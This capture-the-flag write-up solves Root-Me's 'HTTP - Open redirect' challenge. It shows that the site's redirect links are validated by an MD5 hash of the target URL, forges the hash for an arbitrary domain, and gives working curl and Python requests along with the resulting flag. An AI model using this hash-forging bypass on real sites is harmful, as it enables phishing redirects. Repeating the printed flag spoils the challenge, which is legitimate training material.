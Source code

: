 ```yaml
---
title: HTTP - Open redirect
author: thanguyen165
date: 2023-01-02 07:00:00 +0700
categories: [Practice, rootme]
tags: [Web Exploitation, rootme]
---
```


* Points: 10
* Link: [https://www.root-me.org/en/Challenges/Web-Server/HTTP-Open-redirect](https://www.root-me.org/en/Challenges/Web-Server/HTTP-Open-redirect)

## Statement

> Find a way to make a redirection to a domain other than those showed on the web page.
>
> [http://challenge01.root-me.org/web-serveur/ch52/](http://challenge01.root-me.org/web-serveur/ch52/)

## Solution

Let's visit the site

```sh
curl http://challenge01.root-me.org/web-serveur/ch52/
```
```html
<!DOCTYPE html>
<html>
<head>
        <title>HTTP - Open redirect</title>
</head>


<body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe>
        <h1>Social Networks</h1>
<a href='?url=https://facebook.com&h=a023cfbf5f1c39bdf8407f28b60cd134'>facebook</a>
<a href='?url=https://twitter.com&h=be8b09f7f1f66235a9c91986952483f0'>twitter</a>
<a href='?url=https://slack.com&h=e52dc719664ead63be3d5066c135b6da'>slack</a>
<style type="text/css">
        body{
                text-align: center;
                font-family: arial;
        }

        a{
                color: #FFFFFF;
                text-decoration: none;
                text-transform: capitalize;
                padding: 8px;
                background-color: #1CB2D2;
                border-radius: 5px;
                width: 100px;
                display: inline-block;
        }
        a:hover{
                background-color: #3968A9;
        }

        #error{
                color: red;
                font-weight: bold;
        }

</style>
</body>
</html>
```

Check these lines
```html
<a href='?url=https://facebook.com&h=a023cfbf5f1c39bdf8407f28b60cd134'>facebook</a>
<a href='?url=https://twitter.com&h=be8b09f7f1f66235a9c91986952483f0'>twitter</a>
<a href='?url=https://slack.com&h=e52dc719664ead63be3d5066c135b6da'>slack</a>
```

Sounds like we have a **hash** here. Let's check with [hash-identifier](https://www.kali.org/tools/hash-identifier/)
```console
┌──(user㉿kali)-[~]
└─$ hash-identifier
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: a023cfbf5f1c39bdf8407f28b60cd134

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```

Well well we got a MD5 hash, use [MD5 decoder tool](https://md5hashing.net/hash/md5), we have ```a023cfbf5f1c39bdf8407f28b60cd134``` is a hash of ```https://facebook.com```.

So let's try any domain, for example, ```https://mydomain.com``` with hash is ```9af3e23ea90265a580cb11bfce830f97```:
```sh
curl http://challenge01.root-me.org/web-serveur/ch52/?url=https://mydomain.com&h=9af3e23ea90265a580cb11bfce830f97
```
But I got ```403 error```, so I try again with python
```python
import requests
flag = requests.get("http://challenge01.root-me.org/web-serveur/ch52/?url=https://google.com&h=99999ebcfdb78df077ad2727fd00969f")
print(flag.text)
```

and...
```html
<!DOCTYPE html>
<html>
<head>
        <title>HTTP - Open redirect</title>
</head>


<body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe>
        <p>Well done, the flag is e6f8a530811d5a479812d7b82fc1a5c5
</p><script>document.location = 'https://google.com';</script>
<style type="text/css">
        body{
                text-align: center;
                font-family: arial;
        }

        a{
                color: #FFFFFF;
                text-decoration: none;
                text-transform: capitalize;
                padding: 8px;
                background-color: #1CB2D2;
                border-radius: 5px;
                width: 100px;
                display: inline-block;
        }
        a:hover{
                background-color: #3968A9;
        }

        #error{
                color: red;
                font-weight: bold;
        }

</style>
</body>
</html>
```

Here we go
```html
<p>Well done, the flag is e6f8a530811d5a479812d7b82fc1a5c5
```
The flag is
```
e6f8a530811d5a479812d7b82fc1a5c5
```
